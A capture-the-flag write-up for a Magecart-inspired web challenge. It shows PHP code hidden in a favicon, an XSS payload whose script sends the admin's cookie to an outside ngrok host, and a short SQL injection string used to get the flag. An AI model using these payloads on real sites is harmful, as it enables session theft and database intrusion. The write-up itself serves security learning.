





# Level 4 -  The Magician's Den

> One day, the admin of Apple Story Pte Ltd received an anonymous email.
>
> \===&#x20;
>
> Dear admins of Apple Story, We are PALINDROME.&#x20;
>
> We have took control over your system and stolen your secret formula!&#x20;
>
> Do not fear for we are only after the money.&#x20;
>
> Pay us our demand and we will be gone.&#x20;
>
> For starters, we have denied all controls from you.&#x20;
>
> We demand a ransom of 1 BTC to be sent to 1BvBMSEYstWetqTFn5Au4m4GFg7xJaNVN2 by 31 Dec 2021.&#x20;
>
> Do not contact the police or seek for help.&#x20;
>
> Failure to do so and the plant is gone.&#x20;
>
> We planted a monitoring kit so do not test us.&#x20;
>
> Remember 1 BTC by 31 dec 2021 and we will be gone. Muahahahaha.
>
> Regards, PALINDROME
>
> \===
>
> Management have just one instruction. Retrieve the encryption key before the deadline and solve this.
>
> http://wp6p6avs8yncf6wuvdwnpq8lfdhyjjds.ctf.sg:14719
>
> Note: Payloads uploaded will be deleted every 30 minutes.

### Finding the Target Server

From the challenge name and this photo, we could gather that this challenge was inspired by Magecart!


We were also hinted to look into Magecart's [past TTPs](https://www.darkreading.com/attacks-breaches/magecart-how-its-attack-techniques-evolved). I initially thought of card skimming JavaScript, but after taking a look at the page contents, this seemed rather unlikely (the only JavaScript was for the countdown timer).

This bit about Favicons was quite interesting, though, so I decided to look into it.


It appears that the webpage's Favicon does indeed include some code!



The base64 payload decodes to

```php
$ch=curl_init();
curl_setopt($ch,CURLOPT_URL,"http://s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926/xcvlosxgbtfcofovywbxdawregjbzqta.php");
curl_setopt($ch,CURLOPT_POST,1);
curl_setopt($ch,CURLOPT_POSTFIELDS,"14c4b06b824ec593239362517f538b29=Hi%20from%20scada");
$server_output=curl_exec($ch);
```

We found a new endpoint, and we know that we can send POST requests to it!

### Authenticating as the Admin

Exploring a bit more, we can also find out the following:

1. When POST-ing data to the server, the data is saved to a HTML file.
2. `http://s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926/data.php` lists all the recent HTML files.
3. The files are read by the admin.
4. We can perform an XSS on the admin.



I sent the following HTML payload:

```html
Hi from scada
<script src="https://bf25-115-66-195-39.ngrok.io/exploit.js"></script>
```

On the exploit server, the following cookie stealing payload is hosted on `exploit.js`:

```javascript
document.location.href = "https://bf25-115-66-195-39.ngrok.io/?" + document.cookie;
```

This allows us to obtain the admin cookie.

### Getting the Flag

In the `robots.txt` file, we discover some interesting entries.



The `login.php` endpoint redirects to `landing_admin.php` once we have authenticated as the admin. We also learnt that we can set `?debug=TRUE`.



Here, we need to exploit an SQL injection to obtain the flag. The debug parameter helps us to see SQL errors! The challenge is that the filter can only be 7 characters long, so we have to get creative.

I ended up with `filter='or'1'#`. Spaces were not needed between strings, the `'1'` string evaluates to a boolean True, and the `#` comments out the rest of the query to prevent errors.


